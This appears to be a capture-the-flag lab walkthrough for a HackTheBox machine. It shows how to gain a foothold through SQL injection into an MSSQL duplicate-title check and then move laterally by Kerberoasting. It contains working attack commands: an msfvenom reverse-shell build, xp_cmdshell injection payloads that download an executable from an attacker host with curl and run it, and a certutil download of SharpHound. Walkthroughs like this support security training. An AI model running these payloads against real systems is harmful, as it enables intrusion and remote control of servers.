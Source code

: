 ## Initial Foothold

In the `Check Duplicate Post Titles` section we find a feature that is most likely using the datbase (MSSQL), we will use this and try to get a reverse shell via SQL injections.

1. We start by creating a malicious `exe` file.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=LISTENER_PORT -f exe -o shell.exe
```

2. After setting up a web server, we drop the file on the target system.

```
'; IF (SELECT CONVERT(INT, value_in_use) FROM sys.configurations WHERE name = 'xp_cmdshell') = 1 EXEC master.dbo.xp_cmdshell 'powershell -c "curl http://YOUR_IP:WEBSERVER_PORT/shell.exe -o %TEMP%\shell.exe" --
```

![malicious file dropped on target](/images/HTB-Blazorized/revshell1.png)

3. We start a listener in Metasploit via `exploit/multi/handler`.

4. We execute the malicous `exe` file on the target and obtain a meterpreter shell as `NU_1055`.

```
'; IF (SELECT CONVERT(INT, value_in_use) FROM sys.configurations WHERE name = 'xp_cmdshell') = 1 EXEC master.dbo.xp_cmdshell ' %TEMP%\shell.exe --
```

![Meterpreter shell foothold](/images/HTB-Blazorized/foothold.png)

We find the user flag in the user Desktop.

![user flag](/images/HTB-Blazorized/user_flag.png)

### Lateral Movement (shell as RSA_4810)

Usually we would run Bloodhound with some credentials in order to gather all the data about the domain. When we do not have access to any credentials we can use [SharpHound](https://github.com/BloodHoundAD/SharpHound) to obtain that information.

```
certutil.exe -urlcache -split -f http://YOUR_IP:WEBSERVER_PORT/SharpHound.exe sharphound.exe
```

![SharpHound transfer](/images/HTB-Blazorized/download_sharphound.png)

![SharpHound zip file](/images/HTB-Blazorized/sharhound_zip.png)

We download the `zip` archive on our local machine, extract it, and load the files in Bloodhound.

Find user `NU_1055`, then go to `Node Info` --> `First Degree Object Control` under `OUTBOUND OBJECT CONTROL`. We discover that the user has the `WriteSPN` right over the user `RSA_4810`.

> SPNs are identifiers used by Kerberos to associate a service with a particular account in Active Directory. When a client requests access to a service (identified by its SPN), it requests a Service Ticket for that service from the Domain Controller. For our Kerberoast attack, we will request a Service Ticket for the specific SPN we will create. Since Service Tickets are encrypted with the NTLM hash of the service account’s password, after obtaining these tickets, we can try to crack the hash offline in order recover the service account password.
